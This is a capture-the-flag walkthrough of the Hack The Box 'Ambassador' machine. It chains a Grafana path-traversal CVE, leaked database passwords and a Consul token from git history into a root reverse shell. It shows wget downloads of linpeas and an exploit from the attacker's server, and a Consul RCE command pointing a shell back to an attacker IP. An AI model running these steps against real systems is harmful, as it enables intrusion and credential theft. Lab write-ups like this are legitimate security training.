

# Hackthebox - Ambassador - Linux

  

## Nmap

```bash
┌──(kali㉿kali)-[~/Documents/hackthebox/ambassador]
└─$ sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.11.183                                                                                                        
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-27 11:41 EST
Nmap scan report for 10.10.11.183
Host is up (0.037s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 29dd8ed7171e8e3090873cc651007c75 (RSA)
|   256 80a4c52e9ab1ecda276439a408973bef (ECDSA)
|_  256 f590ba7ded55cb7007f2bbc891931bf6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ambassador Development Server
|_http-generator: Hugo 0.94.2
|_http-server-header: Apache/2.4.41 (Ubuntu)
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Tue, 27 Dec 2022 16:43:09 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Tue, 27 Dec 2022 16:42:38 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Tue, 27 Dec 2022 16:42:43 GMT
|_    Content-Length: 0
3306/tcp open  mysql   MySQL 8.0.30-0ubuntu0.20.04.2
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 10
|   Capabilities flags: 65535
|   Some Capabilities: IgnoreSigpipes, SupportsLoadDataLocal, Support41Auth, Speaks41ProtocolOld, SupportsTransactions, FoundRows, SwitchToSSLAfterHandshake, LongColumnFlag, LongPassword, DontAllowDatabaseTableColumn, ConnectWithDatabase, ODBCClient, SupportsCompression, IgnoreSpaceBeforeParenthesis, InteractiveClient, Speaks41ProtocolNew, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: IV\x18\x1A\x18\x05\x15bM*B<xs\x14GL{r7
|_  Auth Plugin Name: caching_sha2_password
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.93%I=7%D=12/27%Time=63AB207E%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(GetRequest,174,"HTTP/1\.0\x20302\x20Found\r\nCache-Contr
SF:ol:\x20no-cache\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nExpi
SF:res:\x20-1\r\nLocation:\x20/login\r\nPragma:\x20no-cache\r\nSet-Cookie:
SF:\x20redirect_to=%2F;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nX-Conte
SF:nt-Type-Options:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nX-Xss-Protec
SF:tion:\x201;\x20mode=block\r\nDate:\x20Tue,\x2027\x20Dec\x202022\x2016:4
SF:2:38\x20GMT\r\nContent-Length:\x2029\r\n\r\n<a\x20href=\"/login\">Found
SF:</a>\.\n\n")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-T
SF:ype:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400
SF:\x20Bad\x20Request")%r(HTTPOptions,12E,"HTTP/1\.0\x20302\x20Found\r\nCa
SF:che-Control:\x20no-cache\r\nExpires:\x20-1\r\nLocation:\x20/login\r\nPr
SF:agma:\x20no-cache\r\nSet-Cookie:\x20redirect_to=%2F;\x20Path=/;\x20Http
SF:Only;\x20SameSite=Lax\r\nX-Content-Type-Options:\x20nosniff\r\nX-Frame-
SF:Options:\x20deny\r\nX-Xss-Protection:\x201;\x20mode=block\r\nDate:\x20T
SF:ue,\x2027\x20Dec\x202022\x2016:42:43\x20GMT\r\nContent-Length:\x200\r\n
SF:\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-
SF:Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n40
SF:0\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/
SF:1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charse
SF:t=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSes
SF:sionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-T
SF:ype:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400
SF:\x20Bad\x20Request")%r(FourOhFourRequest,1A1,"HTTP/1\.0\x20302\x20Found
SF:\r\nCache-Control:\x20no-cache\r\nContent-Type:\x20text/html;\x20charse
SF:t=utf-8\r\nExpires:\x20-1\r\nLocation:\x20/login\r\nPragma:\x20no-cache
SF:\r\nSet-Cookie:\x20redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity\.tx
SF:t%252ebak;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nX-Content-Type-Op
SF:tions:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nX-Xss-Protection:\x201
SF:;\x20mode=block\r\nDate:\x20Tue,\x2027\x20Dec\x202022\x2016:43:09\x20GM
SF:T\r\nContent-Length:\x2029\r\n\r\n<a\x20href=\"/login\">Found</a>\.\n\n
SF:");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=12/27%OT=22%CT=1%CU=39848%PV=Y%DS=2%DC=I%G=Y%TM=63AB20
OS:FE%P=x86_64-pc-linux-gnu)SEQ(SP=FA%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=F9%GCD=1%ISR=10E%TI=Z%CI=Z%TS=A)OPS(O1=M539ST11NW7%O2=M539ST11NW7%O3
OS:=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST11NW7%O6=M539ST11)WIN(W1=FE88%W2=F
OS:E88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 177.76 seconds
```

- A few ports are really worth having a look at

## Port 80

- We land on this page  

  

## Port 3000

- When accessing to http://10.10.11.183:3000
- We get a login page to grafana  
  
- We have a few links to explore here.
  - The [documentation](https://grafana.com/docs/grafana/latest/?utm_source=grafana_footer)
  - Support
  - [Community](https://community.grafana.com/?utm_source=grafana_footer)
  - [Open Source](https://grafana.com/oss/grafana?utm_source=grafana_footer)
- Also we should keep aside the fact that it is version 8.2.0. According to the website latest release is 9.1 so this is definitely something worth investigating

### CVE-2021-4378

- Let's see if this version is vulnerable to something. It is, we have a [poc for CVE-2021-43798](https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798)
- Let's install and try it
- I am going to use a virtual env `python3 -m venv grafanaexploit`
- `source grafanaexploit/bin/activate`
- In order for the script to work we need to edit the file `/exploit-grafana-CVE-2021-43798/grafanaexploit/lib/python3.10/site-packages/prompt_toolkit/styles/from_dict.p`
- We have to change the import `from collections import Mapping` to `from collections.abc import Mapping`  (I found this fix from [this video](https://www.youtube.com/watch?v=DMYK-58U0Tk&ab_channel=SpinnTV))
- We can now launch the script
- I did a file domain.txt with this line in it `10.10.11.183:3000`
- It works and we get these info  
  
- The `etc/passwd` file finds a developer user `developer:x:1000:1000:developer:/home/developer:/bin/bash`  
  
- The file defaults.ini contains so interesting info  
  
  
  - We have a secret here it is the secret key that was extracted with the script `SW2YcwTIb9zpOOhoPsMm`
  
  - This might be worth investigating  
  
  - This too  
  
- The db file contains the user `admin` (to read it we can use sqlbrowser `sqlitebrowser 10_10_11_183_3000/grafana.db`)
- The graphana.ini has the admin password `messageInABottle685427`  
  
We can login on grafana as the admin.  
  
I can not find a place to execute command or anything...  
Let's use sqlite3 to have a look at the db file, this way we will be able to use the cmd line (plus it will be more easy on our eyes :D) `sqlite3 exploit-grafana-CVE-2021-43798/10_10_11_183_3000/grafana.db`  
We can find useful sqlite3 commands [here](https://www.sitepoint.com/getting-started-sqlite3-basic-commands/)  
- We find another password in the data_source table `dontStandSoCloseToMe63221!`  
  
We saw that the mysql port was open with our nmap. Let's connect to it `mysql -h 10.10.11.183 -u grafana -p`  
When having a look at the databases we have an usal database `whackywidget`  
  
Let's run `use whackywidget` to see what it is. There is only one table `users`. Sounds interesting  
  
We get another password for developer which is the user we spotted in the `/etc/passwd` file!  
  
It is base64 encoded. My burp is still running so let's use the decoder. We seem to have a Sting fan on this box ^_^ `anEnglishManInNewYork027468`  
  
Let's try it on ssh `ssh developer@10.10.11.183`. It works we are logged in as developer  
Let's grab our user flag `cat user.txt`  

## Privesc

`sudo -l` does not give anything. Let's get linpeas. `uname -a` gives this `Linux ambassador 5.4.0-126-generic #142-Ubuntu SMP Fri Aug 26 12:12:57 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux`  

- `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64`
- `python3 -m http.server 80`
- And in our target `wget http://10.10.14.5/linpeas_linux_amd64`
- `chmod +x linpeas_linux_amd64`
- `./linpeas_linux_amd64`
  - We can see that root is allowed to ssh
  - `/home/developer/.ssh/authorized_keys` we could check these keys (file is empty)
  - This file is worth checking `/usr/share/openssh/sshd_config` (nothing here)
  - This folder as well `/opt/my-app/`
  - This folder also `/opt/consul/`
  - This seems interesting too `/development-machine-documentation`

### The /opt folder

In the git logs we have interesting commits

```bash
0000000000000000000000000000000000000000 4b8597b167b2fbf8ec35f992224e612bf28d9e51 Developer <developer@ambassador.local> 1647211451 +0000       commit (initial): .gitignore
4b8597b167b2fbf8ec35f992224e612bf28d9e51 8dce6570187fd1dcfb127f51f147cd1ca8dc01c6 Developer <developer@ambassador.local> 1647211621 +0000       commit: created project with django CLI
8dce6570187fd1dcfb127f51f147cd1ca8dc01c6 c982db8eff6f10f8f3a7d802f79f2705e7a21b55 Developer <developer@ambassador.local> 1647215085 +0000       commit: config script
c982db8eff6f10f8f3a7d802f79f2705e7a21b55 33a53ef9a207976d5ceceddc41a199558843bf3c Developer <developer@ambassador.local> 1647215256 +0000       commit: tidy config script
33a53ef9a207976d5ceceddc41a199558843bf3c 33a53ef9a207976d5ceceddc41a199558843bf3c Developer <developer@ambassador.local> 1647217299 +0000       Branch: renamed refs/heads/master to refs/heads/main
```

These 2 commits about the config script are worth having a look at. We can find a way to have a look at a specific commit [here](https://git-scm.com/docs/git-show). This command should help us.

> Note don't waste time on trying to use git commands elsewhere that in the my-app folder ^_-  

We can try this `git show c982db8eff6f10f8f3a7d802f79f2705e7a21b55`. It leaks a token `--token bb03b43b-1d81-d62b-24b5-39540ee469b5` and mentions Consul. We need to check out more about Consul  
  
The other commit on a config file was just done to remove the token.  
[Here](https://www.consul.io/) is consul's website.  
It seems like a juicy tool for security "Consul uses service identities and traditional networking practices to help organizations securely connect applications running in any environment."

- Let's see if we can find some exploits online
- I tried a few but the only one that worked was [this one ](https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API) `wget https://raw.githubusercontent.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API/main/exploit.py`
- We have to get it in our target `python3 -m http.server 80` we launch our http server
- `wget http://10.10.14.5/exploit.py` we take the exploit from our target
- It needs a few things to work  
  
- `python3 exploit.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.14.5 --lport 4444 -tk bb03b43b-1d81-d62b-24b5-39540ee469b5`  

> Note we can find the required port from the documentation [here](https://developer.hashicorp.com/consul/docs/install/ports)

- We get a root shell and can grab the last flag  

